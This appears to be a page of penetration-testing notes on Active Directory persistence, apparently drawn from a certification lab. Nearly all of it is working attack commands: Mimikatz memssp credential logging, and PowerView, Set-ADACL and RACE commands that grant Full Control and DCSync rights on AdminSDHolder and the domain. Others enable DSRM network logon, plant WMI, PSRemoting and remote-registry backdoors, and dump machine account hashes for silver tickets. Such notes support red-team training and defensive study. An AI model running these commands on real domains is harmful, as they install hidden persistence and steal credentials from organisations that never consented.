 # ACLs

### **Custom SSP**

With MimiKatz, or the use of mimilib.dll.

```powershell
Invoke-Mimikatz -Command '"misc::memssp"'
```

## **ACLs – AdminSDHolder**

### Theory

When you modify the ACLs to gain persistence might happen that you changes can be reverted by the sanitization methods, like the **Security Descriptor Propagate,** in particular the Protected Groups (Domain admins, Backup Operators ecc....).

It works by comparing the actual ACL with the AdminSDHolder's one and any difference is overwritten

### Abuse

#### Modify the ACLs to add Full Control permissions for a user to the AdminSDHolder using PowerView as a Domain Admin

{% code overflow="wrap" %}
```powershell
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName student1 -Rights All -Verbose
```
{% endcode %}

#### _Using ActiveDirectory Module and Set-ADACL_

{% code overflow="wrap" %}
```powershell
Set-ADACL -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=<DOMAIN>,DC=<DOMAIN> C=<DOMAIN>' -Principal <Controlled User> -Verbose
```
{% endcode %}

#### _Use of_ [_race_ ](https://github.com/samratashok/RACE)_toolkit_

```AD_module
Set-DCPermissions -Method AdminSDHolder -SAMAccountName student1 -Right GenericAll -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' -Verbose
```

## **ACLs – Right Abuse on Domain Objecy**

#### _Add FullControl rights_ using powershell

{% code overflow="wrap" %}
```powershell
Add-ObjectAcl -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' - PrincipalSamAccountName <Controlled User> -Rights All -Verbose
```
{% endcode %}

#### Using ActiveDirectory Module and Set-ADACL

```AD_module
Set-ADACL -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Principal student1 -Verbose
```

#### _Add rights for DCSync_ using powershell

{% code overflow="wrap" %}
```powershell
Add-ObjectAcl -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' - PrincipalSamAccountName <Controlled User> -Rights DCSync -Verbose
```
{% endcode %}

#### Using ActiveDirectory Module and Set-ADACL

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong>Set-ADACL -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Principal &#x3C;Controlled User> -GUIDRight DCSync -Verbose
</strong></code></pre>

### **DC persistence by abusing the DSRM service.**

The DSRM administrator is not allowed to logon to the DC from network. So we need to change the logon behavior for the account by modifying registry on the DC

{% code overflow="wrap" %}
```powershell
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```
{% endcode %}

<figure><img src="../../.gitbook/assets/Pasted image 20231025115059.png" alt=""><figcaption></figcaption></figure>

Now from the attack box we can simply [pass the hash](../active-directory/lateral-movement/pass-the/pass-the-hash.md) and use the dsrm administrator session

### **Grant remote access to a stupid user**

Once we have administrative privileges on a machine, we can modify security descriptors of services to access the services without administrative privileges. Open a session with invoke-mimi or rubeus and launch invishell. import the[ RACE.ps1 module](https://github.com/samratashok/RACE)

```powershell
. ./RACE.ps1
```

And modify the service

{% code overflow="wrap" %}
```powershell
Set-RemoteWMI -SamAccountName <Controlled User> -ComputerName <Machine> -namespace 'root\cimv2' -Verbose
```
{% endcode %}

<figure><img src="../../.gitbook/assets/Pasted image 20231025144401.png" alt=""><figcaption></figcaption></figure>

Now we granted the acces to us

```powershell
gwmi -class win32_operatingsystem -ComputerName <MACHINE>
```

<figure><img src="../../.gitbook/assets/Pasted image 20231025144606.png" alt=""><figcaption></figcaption></figure>

***

We can do the same but with powershell. After opened the session and imported

```powershell
. C:\AD\Tools\RACE.ps1
```

{% code overflow="wrap" %}
```powershell
Set-RemotePSRemoting -SamAccountName <STUPID USER> -ComputerName <MACHINE> -Verbose
```
{% endcode %}

To check if the command worked

```powershell
Invoke-Command -ScriptBlock{whoami} -ComputerName <MACCHINA>
```

<figure><img src="../../.gitbook/assets/Pasted image 20231025145545.png" alt=""><figcaption></figcaption></figure>

### **Retrieve hash of Machine without admin access**

To retrieve access without Domain admin access we need to modify a permission on the dc. So open a session, import[ race.ps1](https://github.com/samratashok/RACE) and launche te command.

```powershell
. C:\AD\Tools\RACE.ps1
```

```powershell
Add-RemoteRegBackdoor -ComputerName <MACHINE> -Trustee <CONTROLLED USER> -Verbose
```

<figure><img src="../../.gitbook/assets/Pasted image 20231025150802.png" alt=""><figcaption></figcaption></figure>

and retrieve the hash

```powershell
. C:\AD\Tools\RACE.ps1
```

```powershell
Get-RemoteMachineAccountHash -ComputerName <MACHINE> -Verbose
```

<figure><img src="../../.gitbook/assets/Pasted image 20231025150902.png" alt=""><figcaption></figcaption></figure>

and with that we can [create a silver ticket](ticket-forging.md) for the services (in this case HOST)

##

